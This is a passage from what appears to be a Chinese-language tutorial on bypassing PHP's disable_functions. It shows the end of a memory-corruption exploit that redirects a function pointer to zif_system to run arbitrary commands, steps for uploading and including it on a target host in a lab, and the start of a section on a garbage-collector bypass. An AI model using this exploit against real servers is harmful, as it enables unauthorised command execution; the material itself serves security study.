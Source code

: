 ```php
        # copy bucket zval
        $function_zval = $this->str2ptr($this->abc, $fake_bkt_off);
        for($i = 0; $i < 12; $i++) {
            $this->write($this->abc,  $fake_bkt_off + 0x70 + $i * 8, 
                $this->leak2($function_zval, $i * 8));
        }

        # pwn
        $this->write($this->abc, $fake_bkt_off + 0x70 + 0x30, $zif_system);
        $this->write($this->abc, $fake_bkt_off, $fake_bkt_addr + 0x70);

        $spl1->offsetGet($cmd);

        exit();
    }
}

$y = [new Z()];
json_encode([&$y]);
```

###  演示过程

还是一样的，先上传文件到目标主机上，如果是web目录则直接传参执行命令，如果是其他有权限的目录，则将脚本包含进来再传参执行命令。



还是利用上面的`AntSword-Labs`环境

上传文件到`/var/tmp`，修改

![image-20220327110311906](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271103033.png)

然后包含文件，直接执行命令



##  php-GC-bypass

### 使用条件：

Linux 操作系统

PHP 版本

> 7.0 - all versions to date
>
> 7.1 - all versions to date
>
> 7.2 - all versions to date
>
> 7.3 - all versions to date

### 原理简述
